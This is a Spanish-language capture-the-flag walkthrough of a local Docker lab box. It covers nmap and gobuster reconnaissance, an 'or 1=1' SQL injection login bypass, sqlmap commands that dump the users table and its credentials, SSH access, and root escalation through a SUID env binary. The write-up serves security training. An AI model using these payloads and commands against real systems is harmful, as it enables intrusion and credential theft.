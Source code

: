 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh injection.tar
```

![Pasted image 20250129175253](https://github.com/user-attachments/assets/14ce4f40-ab9f-4462-81e3-6608d97b908b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129180719](https://github.com/user-attachments/assets/aef8dcf1-081e-46ae-a31b-d09a13eb097d)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129182251](https://github.com/user-attachments/assets/b2a02122-17b1-43ea-8239-8bdced77a53f)

Nos metemos en los directorios:

![Pasted image 20250129182354](https://github.com/user-attachments/assets/4669e891-bed9-4e8b-af23-0ae0a6db1750)

Metemos esta inyección en el usuario (el password lo que queramos).

```Bash
'or 1=1 -- -
```

![Pasted image 20250129182930](https://github.com/user-attachments/assets/4e13331a-7108-48f7-97eb-34c9f7a79800)

![Pasted image 20250129183019](https://github.com/user-attachments/assets/5c6c608c-501b-42fc-bdff-227d442d0773)

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Más formas de conseguirlo:

**Inyección sqlmap**

```Bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

![Pasted image 20250129183525](https://github.com/user-attachments/assets/b296691d-128e-4395-b554-87bc64bd7b79)

![Pasted image 20250129183540](https://github.com/user-attachments/assets/4285df20-25d5-4867-8f6b-ef75ef06a3cc)

Ahora usamos el siguiente comando para acceder a ``register``:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

![Pasted image 20250129183601](https://github.com/user-attachments/assets/e9f8150f-6e8a-4311-b949-b07e81064e30)

![Pasted image 20250129183616](https://github.com/user-attachments/assets/e3f2a992-8ab5-4fdc-880a-88b86f1a70f8)

Accedemos a ``users`` y listamos las columnas:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
```

![Pasted image 20250129183659](https://github.com/user-attachments/assets/343da861-7a0e-4fdd-b16f-83fbc6943dd9)

![Pasted image 20250129183713](https://github.com/user-attachments/assets/1fad748e-83c3-4bd5-bbe0-3ef393bd9924)

Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales.

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch
```

![Pasted image 20250129183736](https://github.com/user-attachments/assets/01cec31e-3af0-47ad-af57-637f48f2fb66)

![Pasted image 20250129183748](https://github.com/user-attachments/assets/e67d540c-137b-44bf-88d6-88fc5682969d)

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Nos conectamos con SSH

```Bash
ssh dylan@172.17.0.2
```

![Pasted image 20250129183951](https://github.com/user-attachments/assets/623db47c-26dd-43f3-9f5f-98125d00cd79)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129184025](https://github.com/user-attachments/assets/c7047a32-1b6f-494b-bfcc-6699b09fbcea)

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250129184114](https://github.com/user-attachments/assets/37a05325-bf9c-4d47-b4a3-88fb9a59d94e)

```Bash
/usr/bin/env /bin/bash -p
```

![Pasted image 20250129184315](https://github.com/user-attachments/assets/a43c5967-15fd-4ae8-b998-52d8798a0b91)

```Bash
whoami
```

![Pasted image 20250129184339](https://github.com/user-attachments/assets/666bfd1c-e2f1-43a4-bced-c9080bab84f0)
